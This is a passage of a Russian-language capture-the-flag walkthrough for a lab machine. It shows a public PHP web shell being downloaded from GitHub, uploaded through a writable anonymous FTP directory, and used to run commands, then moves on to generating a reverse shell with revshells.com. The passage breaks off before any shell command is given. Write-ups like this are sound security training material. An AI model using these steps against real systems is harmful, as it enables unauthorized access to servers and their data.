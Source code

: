 *Скачиваем следующий файл index.php с гитхаба*
  https://github.com/artyuum/simple-php-web-shell
#### 10. Сейчас будем грузить файл index.php на FTP сервер 

**Далее на FTP сервере переходим в директорию ftp**
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Dec 17 20:29 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
```
>   *p.s. мы переходим в ftp директорию для того чтобы загрузить наш файл index.php, а в той дериктории, которой мы первоначально появляемся, нельзя загрузить наш файл, т.к там нам не хватает прав на загрузку файлов.*

* Скачав файл index.html с github, загружаем его использовав следующую команду:  
**put index.php**
```
ftp> put index.php
local: index.php remote: index.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
2464 bytes sent in 0.00 secs (21.9612 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Dec 17 20:37 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          2464 Dec 17 20:37 index.php
226 Directory send OK.
```

* Далее заходим на сайт 
``` http://10.10.46.240/files/ftp``` 

### * И видем следующие

![](https://i.imgur.com/DksVw5S.png)

### * Или же 
![](https://i.imgur.com/bHsZhHo.png)


* Далее мы можем в поле command попробуем ввести команду:  **ls -la **
![](https://i.imgur.com/0wxJBoa.png)

* Отлично мы видем, что у нас все работает и даже отрабатывают команды на сервере. Теперь пробуем применить в данном шаге реверс шеллку 

> * P.s Почитать об реверс шелле подробнее можно здесь: 
> https://telegra.ph/Reverse-Shell-CHto-ehto-i-zachem-nuzhno-07-22

#### 11. Заходим на сайт:
https://www.revshells.com/
![](https://i.imgur.com/kh1S31n.png)


> Этот сайт позволяет сгенерировать реверсшелл, которая нам даст доступ на тачку. В IP&Port вводим айпи хостовой тачки - (т.е нашей тачки), далее свободный порт(в моем случае я выбрал 8888)

```